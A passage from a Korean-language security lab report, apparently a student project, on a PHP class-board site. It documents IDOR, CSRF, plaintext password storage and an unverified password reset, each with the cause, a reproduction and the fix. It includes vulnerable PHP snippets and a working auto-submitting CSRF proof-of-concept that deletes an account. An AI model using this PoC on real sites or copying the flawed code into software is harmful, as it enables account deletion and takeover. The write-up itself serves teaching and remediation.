학생 계정으로 로그인하고 관리자 계정의 ID를 지정한 `account/edit.php?id=1`에 접근했습니다. 보완 전 코드에서 관리자 정보가 표시됐고, 같은 URL을 보완 후 코드에서 요청했을 때는 학생 본인의 정보가 표시됐습니다.

### 원인
```php
// account/edit.php, account/delete_account.php (취약 코드, 패치 전)
$id = isset($_GET['id']) ? $_GET['id'] : $_SESSION['user_id'];
// requireLogin()으로 "로그인 여부"만 확인, 본인/관리자 여부는 검사하지 않음
```
```php
// board/delete.php (취약 코드) — notice 게시판일 때만 관리자 검사, 자유/과제 게시판은 소유자 검사 자체가 없음
if ($post['board_type'] === 'notice' && !isAdmin()) {
    http_response_code(403);
    die("관리자 권한이 필요합니다.");
}
$sql = "DELETE FROM posts WHERE id = $id";
```

### 보완 방법
```php
// account/edit.php, account/delete_account.php (보완 코드)
$id = $_SESSION['user_id'];
// $_GET['id']를 아예 사용하지 않음 — URL에 어떤 값을 넣어도 본인 계정만 대상이 됨
```
`board/delete.php`, `board/edit.php`도 게시판 종류와 무관하게 소유자/관리자 여부를 재검증하도록 수정했습니다.

### 결과 캡처: 보완 전 (취약점 재현 성공)

*student 계정으로 로그인한 상태에서 `edit.php?id=1` 접근, 코드를 패치 전 버전으로 되돌린 상태라 student 본인이 아닌 관리자 정보(ID: admin, 이름: 관리자, EMAIL: admin@test.local)가 그대로 노출됨*

### 결과 캡처: 보완 후 (`id` 파라미터 무효화 확인)

*student 계정으로 `edit.php?id=1`(admin의 실제 id) 접근, URL에 다른 id를 넣어도 student 본인 정보만 표시됨, 즉 파라미터가 무시됨을 확인*


*위 접근 직후의 화면. 주소창은 `edit.php?id=1`이고, 화면에는 student 계정의 로그인 상태(`student님`)가 표시됨*


*다른 학생 계정(student01)으로도 동일하게 시도, 역시 본인 정보만 표시*


*SQL 콘솔로 student/student01/admin의 실제 id 값을 직접 조회, student=2, student01=4, admin=1로 확인. admin(id=1)을 넣어도 admin 정보가 노출되지 않았음을 교차 확인*

---

## 4. CSRF (Cross-Site Request Forgery)

### 개요
요청이 진짜 사용자 본인의 의도인지 검증하는 CSRF 토큰이 없어서, 공격자가 만든 외부 페이지가 피해자의 브라우저를 통해 자동으로 삭제/수정 요청을 보낼 수 있는 취약점입니다. (3번 IDOR과 결합하면 피해가 커집니다.)

### 재현 과정
공격 대상은 `account/delete_account.php`입니다. 로그인한 사용자가 공격자의 외부 페이지를 열기만 해도, 그 페이지가 자동으로 폼을 제출하면서 피해자의 세션으로 계정 삭제 요청이 전송됩니다.

```html
<html>
  <body>
    <form id="f" action="http://192.168.10.111/ALEPH-A-Class/account/delete_account.php?id=3" method="post"></form>
    <script>document.getElementById('f').submit();</script>
  </body>
</html>
```

피해자 역할 계정(test, id=3)으로 로그인한 상태에서 위 PoC 파일을 같은 브라우저로 열면, 별도 확인 없이 `delete_account.php?id=3`에 POST 요청이 전송되고 계정이 즉시 삭제됩니다.

### 원인 / 보완 방법
CSRF 토큰을 발급해 세션에 저장하고, 폼에 hidden 필드로 포함한 뒤, 처리 코드에서 토큰 일치 여부를 확인하는 방식으로 보완했습니다. 보완 전후 코드는 [코드_비교](../코드_비교/README.md)에 있습니다.

### 결과 캡처

*PoC 실행 전, id=3(test) 계정이 정상적으로 존재*


*PoC html을 연 직후, `CSRF.html` → `delete_account.php?id=3`(POST, 302 리다이렉트) → `login.php`로 이어지는 요청 체인. 피해자가 버튼을 누르거나 별도로 동의한 적이 없는데도 요청이 자동 전송됨*


*PoC 실행 후, id=3(test) 계정이 테이블에서 사라짐 (37행 → 36행). 삭제 처리 로직상 본인 계정을 삭제하면 세션도 함께 파기되어 로그아웃됨*

### 결과 캡처: 보완 후 (CSRF 토큰 검증 추가)

*토큰이 없는 요청에 대해 서버가 “잘못된 요청입니다”를 표시한 화면입니다. 공개한 보완 후 코드는 계정 삭제 POST에서 토큰을 검증합니다.*

### 보완 상세 (CSRF 방어)
`includes/auth.php`에서 `bin2hex(random_bytes(32))`로 토큰을 발급해 세션에 저장합니다. 변경 요청을 보내는 폼은 토큰을 숨김 필드로 전송하고, 처리 코드에서는 `hash_equals()`로 세션의 토큰과 비교합니다. 불일치하면 HTTP 403으로 요청을 종료합니다.

---

## 5. 비밀번호 평문 저장

### 개요
회원가입·비밀번호 변경 시 평문 그대로 DB에 저장하고, 로그인 시에도 평문 비교를 해서, DB가 유출되면 전체 회원의 실제 비밀번호가 그대로 노출되는 취약점입니다.

### 원인
```php
// account/register.php (취약 코드 — 개념)
$password = $_POST['password']; // 평문 그대로 저장
```

### 보완 방법
```php
// 보완 코드 — 개념
$hash = password_hash($password, PASSWORD_DEFAULT);
// 저장은 $hash, 로그인 검증은 password_verify($input, $hash)
```

### 결과 캡처

*DB 조회 결과, `student123`/`test123` 등 비밀번호가 평문 그대로 저장되어 있음*


*동일 테이블을 다시 조회, 모든 비밀번호가 `$2y$10$...` 형태의 bcrypt 해시로 저장됨*

### 보완 상세 (비밀번호 해시 저장)
회원가입과 비밀번호 변경에서는 `password_hash()`로 해시를 저장하고, 로그인에서는 `password_verify()`로 입력값을 검증합니다. 기존 실습 계정의 평문 비밀번호도 해시로 변환했습니다.

---

## 6. 본인 확인이 없는 비밀번호 재설정

### 개요
보완 전에는 로그인하지 않은 상태에서 아이디와 이메일만 입력하면 계정의 비밀번호를 변경할 수 있었습니다. 보완 후에는 이메일 인증코드와 만료 시각을 확인하도록 재설정 절차를 변경했습니다.

### 재현 과정: 보완 전 (인증 없이 타 계정 비밀번호 탈취)
1. 로그아웃 상태에서 `account/reset_password.php` 접속
2. **본인 계정이 아닌** admin 계정의 ID(`admin`)와 EMAIL, 새 비밀번호를 한 번에 입력해 제출
3. "비밀번호가 변경되었습니다" 메시지 확인, 본인 인증 절차 없음
4. 새 비밀번호로 관리자 계정에 로그인해 관리자 메뉴에 접근할 수 있는지 확인

### 원인
`reset_password.php`가 `username` · `email` · `new_password`를 한 번의 POST로 같이 받아, `SELECT ... WHERE username='...' AND email='...'`로 일치 여부만 확인한 뒤 바로 `UPDATE`로 비밀번호를 바꿉니다. 로그인 세션 확인, 계정 소유권 검증, 이메일로의 인증코드 발송 등 본인 확인 절차가 전혀 없고, 쿼리도 문자열을 그대로 결합해 구성되어 SQL Injection 여지도 함께 있습니다.

### 보완 방법
등록된 이메일로 발송한 인증코드와 유효기간을 확인한 뒤 비밀번호를 변경하도록 구성했습니다. 보완 전후 코드는 [코드 비교](../코드_비교/README.md)에 있습니다.

### 결과 캡처: 보완 전 (인증 없이 타 계정 비밀번호 탈취)

*로그인하지 않은 상태에서, 본인 계정이 아닌 admin의 ID/이메일만으로 새 비밀번호를 제출*


*본인 확인 절차 없이 "비밀번호가 변경되었습니다" 메시지 출력*


*방금 설정한 새 비밀번호로 admin 계정 로그인 성공, 관리자 메뉴까지 그대로 노출*

### 결과 캡처: 보완 후 (이메일 인증코드 검증 추가)

*인증코드가 올바르지 않거나 만료되었을 때의 에러 메시지*


*1단계: ID와 EMAIL을 입력하면 이메일로 인증코드를 보내 준다는 안내가 있는 빈 폼*


*1단계: ID `tiger`와 EMAIL `tiger@tiger.go.kr`을 입력한 상태에서 "인증코드 받기"를 누르기 전의 화면*


*내부 메일 서버로 수신한 인증코드 메일*


*2단계: 이메일로 받은 인증코드(가림)와 새 비밀번호를 입력하는 화면*

